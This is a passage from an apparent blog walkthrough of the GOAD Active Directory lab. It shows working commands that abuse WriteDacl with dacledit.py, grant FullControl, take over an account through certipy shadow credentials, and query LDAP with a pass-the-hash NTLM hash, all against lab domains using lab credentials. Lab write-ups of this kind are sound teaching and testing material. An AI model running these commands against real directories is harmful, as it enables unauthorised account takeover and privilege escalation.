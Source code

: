 ![acl_writedacl_bh.png](/assets/blog/GOAD/acl_writedacl_bh.png)

- To exploit writeDacl from Joffrey to Tyron we can use acledit.py 

- First we will clone the impacket's [fork](https://github.com/ThePorgs/impacket.git) created by shutdown (@_nwodtuhs) to get the last PR with dacledit

```bash
git clone https://github.com/ThePorgs/impacket.git
cd impacket 
python3 setup.py install
```

- Now we can use [dacledit.py](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

- First let's look at joffrey's right on tyron :

```bash
dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```

![acl_dacl_read_permission.png](/assets/blog/GOAD/acl_dacl_read_permission.png)

- Ok now change the permission to "FullControl" and see the modification

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```

![acl_dacl_writedacl.png](/assets/blog/GOAD/acl_dacl_writedacl.png)

- Ok now we can : 
  - change tyron password
  - do a target kerberoasting
  - do a shadow credentials

- Let's just use shadowcredentials :

```bash
certipy shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```

![acl_ritedacl_shadowcreds.png](/assets/blog/GOAD/acl_ritedacl_shadowcreds.png)

## Add self on Group (Tyron -> Small Council)

- We now got tyron so we can add us into the small council group

![acl_addself.png](/assets/blog/GOAD/acl_addself.png)

- First find the distinguished name

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```
